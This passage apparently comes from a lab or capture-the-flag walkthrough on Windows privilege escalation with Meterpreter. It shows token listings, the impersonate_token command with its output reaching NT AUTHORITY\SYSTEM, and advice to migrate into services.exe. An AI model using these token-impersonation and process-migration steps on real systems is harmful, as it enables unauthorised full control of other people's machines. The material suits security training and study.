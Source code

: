 ```
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\wscsvc
```

- ``meterpreter > impersonate_token "BUILTIN\Administrators"``

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
**Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS**
